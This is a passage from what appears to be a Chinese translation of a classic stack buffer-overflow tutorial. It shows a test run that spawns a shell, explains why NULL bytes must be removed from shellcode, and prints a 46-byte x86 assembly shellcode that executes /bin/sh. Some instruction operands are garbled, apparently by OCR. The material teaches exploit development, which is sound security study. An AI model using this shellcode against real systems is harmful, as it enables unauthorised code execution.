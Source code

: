 ```
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
```

成了! 但是这里还有一个障碍, 在多数情况下, 我们都是试图使一个字符缓冲区溢出. 那么在我们shellcode中的任何`NULL`字节都会被认为是字符串的结尾, 复制工作就到此为止了. 对于我们的破解工作来说, 在shellcode里不能有`NULL`字节. 下面来消除这些字节,同时把代码精简一点.


问题指令： 替代方案：

```
movb x0,0x7(%esi) xorl %eax,%eax
molv x0,0xc(%esi) movb %eax,0x7(%esi)
                  movl %eax,0xc(%esi)
-------------------------------------
movl xb,%eax      movb xb,%al
-------------------------------------
movl x1, %eax     xorl %ebx,%ebx
movl x0, %ebx     movl %ebx,%eax
                  inc %eax
```

改进后的代码：

shellcodeasm2.c

```c
void main() {
    __asm__("
        jmp 0x1f # 2 bytes
        popl %esi # 1 byte
        movl %esi,0x8(%esi) # 3 bytes
        xorl %eax,%eax # 2 bytes
        movb %eax,0x7(%esi) # 3 bytes
        movl %eax,0xc(%esi) # 3 bytes
        movb xb,%al # 2 bytes
        movl %esi,%ebx # 2 bytes
        leal 0x8(%esi),%ecx # 3 bytes
        leal 0xc(%esi),%edx # 3 bytes
        int x80 # 2 bytes
        xorl %ebx,%ebx # 2 bytes
        movl %ebx,%eax # 2 bytes
        inc %eax # 1 bytes
        int x80 # 2 bytes
        call -0x24 # 5 bytes
        .string \"/bin/sh\" # 8 bytes
        # 46 bytes total
    ");
}
```

我们的新测试程序：
